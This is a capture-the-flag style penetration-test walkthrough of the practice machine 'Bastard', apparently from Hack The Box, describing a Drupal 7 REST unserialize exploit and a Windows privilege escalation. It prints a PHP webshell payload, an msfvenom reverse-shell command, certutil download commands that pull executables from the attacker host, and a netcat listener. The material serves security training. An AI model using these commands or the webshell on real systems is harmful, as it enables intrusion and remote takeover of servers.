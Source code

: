 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Mon Jul 18 21:08:28 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.079s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   78.77 ms 10.10.14.1
2   78.79 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 21:11:24 2022 -- 1 IP address (1 host up) scanned in 177.01 seconds
``` 
</br>

**Initial Shell Vulnerability Exploited:** </br>
Since port 80 was open, I got inside the main page and I could see that it was powered by Drupal: </br>
![main_page](images/bastard/main_page.png) </br>
So I ran a drupal scan using [droopescan](https://github.com/SamJoan/droopescan) tool with the command: ```droopescan scan drupal -u 10.10.10.9``` </br>
![drupal_version](images/bastard/drupal_version.png) </br>
I could see that the drupal version is 7.54 and I found an exploit for that version on [GitHub](https://github.com/PolarisLab/Drupal-Exploit/blob/master/Drupal-Exploit.php). </br>
Before running the exploit, I had to install the PHP-curl package and do some modifications in the exploit
code. </br>
I installed php-curl with this command: ```sudo apt-get install php-curl``` and modified the exploit code: </br>

```bash
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; >
];
```
**$url** - To the machine URL (10.10.10.9) </br>
**$endpoint_path** - was at /rest_endpoint before, but it returned 404 Not found, I tried /rest instead and it worked (returned 200). </br>
**'filename'** - will be the name of the file uploaded to the webserver. </br>
**'data'** - I changed it to a one liner [webshell](https://gist.github.com/sente/4dbb2b7bdda2647ba80b) </br>
I ran the exploit: </br>
![shell_upload](images/bastard/shell_upload.png) </br>
And the webshell seemed to work fine:
![webshell_proof](images/bastard/webshell_proof.png) </br>
# Uploading a Reverse Shell:
I used msfvenom to generate a reverse shell on my Kali: </br>
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f exe > reverse.exe``` </br>
I then downloaded that on the target machine with certutil, using the webshell: </br>

```bash
10.10.10.9/test.php?cmd=certutil -urlcache -split -f "http://10.10.14.31/reverse.exe" reverse.exe
```
</br>
Ran the file while listening to port 4242 on my Kali: </br>
![initial_shell_poc](images/bastard/initial_shell_poc.png) </br>
**Vulnerability Explanation:** One of the feature of the module is that one can control the input/output format by changing the
Content-Type/Accept headers.
one of the input formats is: application/vnd.php.serialized, which is the type given to PHP-serialized data,
that means that this module is vulnerable to trivial unserialize() vulnerability.
The unserialize function can result in code being loaded and executed. </br>
**Initial Shell Screenshot:** </br>
![initial_shell_poc2](images/bastard/initial_shell_poc2.png) </br>
# Privilege Escalation:
I used the [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) tool, and found out the machine was vulnerable to MS10-059. </br>
I found an exploit on [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), I downloaded the ```exploit.exe``` file to my Kali machine, </br>
and downloaded on the windows machine, using cerutil (I used the webshell from earlier): </br>
```bash
http://10.10.10.9/test.php?cmd=certutil%20-urlcache%20-split%20-f%20%22http://10.10.14.2/privesc.exe%22%20privesc.exe
``` </br>
I used netcat to listen to 1235 port on my Kali Linux: ```nc -nlvp 1235``` , and ran the exploit on the windows machine: ```privesc.exe 10.10.14.2 1234``` </br>
[privesc_exploit](images/bastard/privesc_exploit.png) </br>
[privesc_exploit2](images/bastard/privesc_exploit2.png) </br>

**Vulnerability Explanation:** The Tracing Feature for Services has incorrect ACLs on its registry keys,
which allows local users to gain privileges via vectors involving a named pipe and impersonation, aka
"Tracing Registry Key ACL Vulnerability." </br>
**Proof Of Screenshot:** </br>
[privesc_poc](images/bastard/privesc_poc.png) </br>

